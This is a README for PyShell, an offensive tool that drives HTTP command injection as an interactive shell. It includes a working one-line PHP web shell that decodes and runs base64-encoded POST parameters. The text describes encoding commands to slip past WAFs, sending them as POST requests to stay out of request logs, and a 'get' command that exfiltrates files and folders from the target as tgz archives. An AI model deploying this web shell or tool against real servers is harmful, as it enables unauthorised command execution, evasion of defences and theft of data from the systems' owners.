

# PyShell - Shellify Your HTTP Command Injection!

Firewall got you down? Are your reverse-shell connection attempts being
filtered? Are you stuck working solely over HTTP / HTTPS? Then this just might
be just the thing for you.

PyShell exists to make interacting with web-based command injection less
painful. The goal is to make it feel as much like an interactive shell as
possible. Commands are base-64 encoded to help deal with WAFs, and are submitted
as POST requests to be less visible in request logs.

Usage is `python3 pyshell.py URL` where URL points to a script which performs
the command injection, something like this:

```
<?php $r=base64_decode($_POST['cmd']).' '.base64_decode($_POST['opts']); echo `$r` ?>
```

The server-side script should accept the following parameters:
 - `cmd`: the command to be run, base64 encoded
 - `opts`: the options to provide to cmd, also base64 encoded
 - `[timeout]`: optional, denotes the number of seconds to wait for a command

## USAGE DEMO:


## COOL FEATURES:
 - Basic command history (up arrow / down arrow to navigate).
 - Navigate directory tree with `cd [target]` pseudo-command.
 - Exfiltrate files or folders via `get [target]` pseudo-command.
 - Tab completion. (whoa!)

## KNOWN ISSUES:
 - Trying to `cd` into a non-existent directory is not prevented

## MISC NOTES:
Note that you only get output when the command you run exits. Interactive
commands are also unsupported, for reasons that should be obvious -- although if
you ever forget why while using PyShell, we'll consider that a success!

To change the timeout parameter passed with each command, run `settimeout n`. It
defaults to 20. Unless you handle the timeout parameter server side, it does
exactly nothing.

Your command-history is located in `~/.pyshellhistory`.

When exfiltrating data, a tgz file will be created in the `downloads`
subdirectory (which will be created as needed). If you do not have permission to
read a file, the file will simply be omitted in the downloaded archive.
